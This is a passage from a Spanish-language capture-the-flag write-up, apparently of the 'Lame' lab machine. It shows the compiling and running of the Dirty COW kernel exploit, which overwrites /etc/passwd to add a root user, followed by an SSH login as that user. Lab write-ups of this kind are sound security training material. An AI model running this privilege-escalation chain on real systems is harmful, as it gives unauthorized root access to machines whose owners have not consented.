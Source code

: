 ```bash
  daemon@lame:/tmp$ gcc -pthread dirty.c -o dirty -lcrypt
```

Finalmente, ejecutamos el exploit seguido de una contraseña aleatoria, en este caso la mía ha sido `hacked`.

```bash
  daemon@lame:/tmp$ ./dirty hacked 
  /etc/passwd successfully backed up to /tmp/passwd.bak
  Please enter the new password: hacked
  Complete line:
  bast1ant1c:fiOEyJZz3b5lA:0:0:pwned:/root:/bin/bash
  
  mmap: b7ef5000
  ptrace 0
  Done! Check /etc/passwd to see if the new user was created.
  You can log in with the username 'bast1ant1c' and the password 'hacked'.
  
  
  DON'T FORGET TO RESTORE! $ mv /tmp/passwd.bak /etc/passwd
  daemon@lame:/tmp$ madvise 0
  
  Done! Check /etc/passwd to see if the new user was created.
  You can log in with the username 'bast1ant1c' and the password 'hacked'.
  
  
  DON'T FORGET TO RESTORE! $ mv /tmp/passwd.bak /etc/passwd
```

_NOTA:_ El script fue modificado para traer como username `bast1ant1c`, el usuario por defecto es `firefart`.

Ahora que tenemos usuario y contraseña, vamos a conectarnos por `ssh` a la maquina víctima.

El exploit ha creado un usuario con permisos de administración, por lo que la conexión realizada nos da acceso a un usuario con todos los privilegios.

```bash
  ❯ ssh bast1ant1c@10.10.10.3                                                             
  bast1ant1c@10.10.10.3's password:                                                       
  Last login: Mon Jul 11 23:25:01 2022 from :0.0                                          
  Linux lame 2.6.24-16-server #1 SMP Thu Apr 10 13:58:00 UTC 2008 i686                    
                                                                                          
  The programs included with the Ubuntu system are free software;                         
  the exact distribution terms for each program are described in the                      
  individual files in /usr/share/doc/*/copyright.                                         
                                                                                          
  Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by                    
  applicable law.                                                                         
                                                                                          
  To access official Ubuntu documentation, please visit:                                  
  http://help.ubuntu.com/                                                                 
  bast1ant1c@lame:~# whoami                                                               
  bast1ant1c
```
